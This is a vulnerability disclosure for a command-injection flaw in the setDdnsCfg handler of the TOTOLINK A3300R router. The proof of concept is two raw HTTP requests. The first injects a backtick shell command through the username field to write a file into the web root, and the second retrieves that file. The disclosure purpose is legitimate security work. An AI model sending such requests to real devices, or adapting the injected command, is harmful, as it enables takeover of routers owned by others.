



#  A3300R setDdnsCfg Command Injection

verdor name: TOTOLINK

model: A3300R AC1200

version: V17.0.0cu.592_B20231030

firmware: https://www.totolink.tw/support_view/A3300R



**Description**

The `username` parameter is vulnerable to command injection when processing the `setDdnsCfg` request.

**poc**

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.100.2
Content-Length: 134
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.100.2
Referer: http://192.168.100.2/login.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"enable":"1","provider":"3322.org","domain":"8.8.8.8","username":"xxx`ls>/web/9.txt`","password":"xxx","topicurl":"setDdnsCfg"}
```



```
GET /9.txt HTTP/1.1
Host: 192.168.100.2
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```


